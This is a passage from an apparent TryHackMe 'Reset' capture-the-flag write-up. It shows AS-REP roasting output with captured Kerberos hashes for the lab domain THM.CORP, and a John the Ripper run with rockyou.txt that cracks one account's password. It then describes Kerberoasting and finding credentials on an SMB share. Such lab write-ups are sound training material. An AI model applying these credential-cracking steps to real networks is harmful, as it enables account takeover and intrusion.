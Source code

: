 ```bash
[-] User CRUZ_HALL does not have UF_DONT_REQUIRE_PREAUTH set
[-] User HOWARD_PAGE does not have UF_DONT_REQUIRE_PREAUTH set
[-] User STEWART_SANTANA does not have UF_DONT_REQUIRE_PREAUTH set
[-] User LINDSAY_SCHULTZ does not have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$TABATHA_BRITT@THM.CORP:8b3ee2c3d466bda1068ea5cb402dea44$7c1e5e744c7b1bdc2449243921d58053c036c5e62874dda92b4adbdfc94e41e265b4d11e759995e297577a50c64ab8ab03e8cc0a60be1c27b51a21da2eb5abb97b611dad16d6eeccf91d1fc6d6cf96f9cb38fe5eccf5f5d3b0608a9f7f4b14b3ffe6983a4871722c26673ec723e9011a07a6c3d4f9375d0c0c85f3398cf64b4b0805cd9d1e349800c04a94708ad140588da43c3a17426e21d8f76d6a6896a63b96658d5505f99397d6bbd89f0e7391aa85781ded6318f50d3fcd193f336c8129adbf845955f84c01c27344e9b19209cf3bf4567f582f3861f10c070e7a00eb86f329cab8
[-] User RICO_PEARSON does not have UF_DONT_REQUIRE_PREAUTH set
[-] User DARLA_WINTERS does not have UF_DONT_REQUIRE_PREAUTH set
[-] User ANDY_BLACKWELL does not have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User CHERYL_MULLINS does not have UF_DONT_REQUIRE_PREAUTH set
[-] User LETHA_MAYO does not have UF_DONT_REQUIRE_PREAUTH set
[-] User HORACE_BOYLE does not have UF_DONT_REQUIRE_PREAUTH set
[-] User CHRISTINA_MCCORMICK does not have UF_DONT_REQUIRE_PREAUTH set
[-] User 3811465497SA does not have UF_DONT_REQUIRE_PREAUTH set
[-] User MORGAN_SELLERS does not have UF_DONT_REQUIRE_PREAUTH set
[-] User MARION_CLAY does not have UF_DONT_REQUIRE_PREAUTH set
[-] User 3966486072SA does not have UF_DONT_REQUIRE_PREAUTH set
[-] User TED_JACOBSON does not have UF_DONT_REQUIRE_PREAUTH set
[-] User AUGUSTA_HAMILTON does not have UF_DONT_REQUIRE_PREAUTH set
[-] User TREVOR_MELTON does not have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$LEANN_LONG@THM.CORP:9dbd2c691039ac5c05d5f360bea948b6$5588c3aced92835c5e3537bee339a81eb3af492e27880e242c130b8d4b84686aca21ea54ba4b7e1233bfceed9c2e82907723a2202f6aa3d9d694ce235824b861185412737c0d1ed7c55902876503bf4df1105079100dacd956dd28040a2b6b6a007c629f5b75ff22020bfacb439d4d2d4691e13b87cef3475f9bc43becc99b5759b0b3a8bff6a36ef41eb476631561d1e5c058091a64c874a5d16b2f3af7326c9ee6e44cf17fb6263ae679e8d621dfb6d95a123181e78701525c1ab8fd7d83b3001c25a785339fd4e09af888ff87ce885652b934785854fe983464f60f506bc206e6e471
[-] User RAQUEL_BENSON does not have UF_DONT_REQUIRE_PREAUTH set
[-] User AUTOMATE does not have UF_DONT_REQUIRE_PREAUTH set
```
{: .nolineno}
{: .nolineno}
I got 3 users TGT tickets so lets crack these through <mark style="background: #FF5582A6;">John The Ripper</mark> Tool 🔽
```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Reset]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt                      
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<PASSWORD>   ($krb5asrep$23$TABATHA_BRITT@THM.CORP)     
1g 0:00:00:55 DONE (2024-02-29 15:46) 0.01804g/s 258772p/s 621561c/s 621561C/s  0841079575..*
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
{: .nolineno}
{: .nolineno}
I only got the password cracked for user **<span style="color:#61ffe5">TABATHA_BRITT</span>** so lets also check for SPN tickets that could be get from this users credentials 🔽
![Image](Pasted%20image%2020240229155433.png)
_Got a lot of SPN tickets lets crack these also in same manner_
I got no users password got cracked so I checked the SMB Shares with that previous credentials and I access Data Share which contains 2 pdfs in which I got a credential of a user ->
![Image](Pasted%20image%2020240229161355.png)
_TABATHA_BRITT Shares_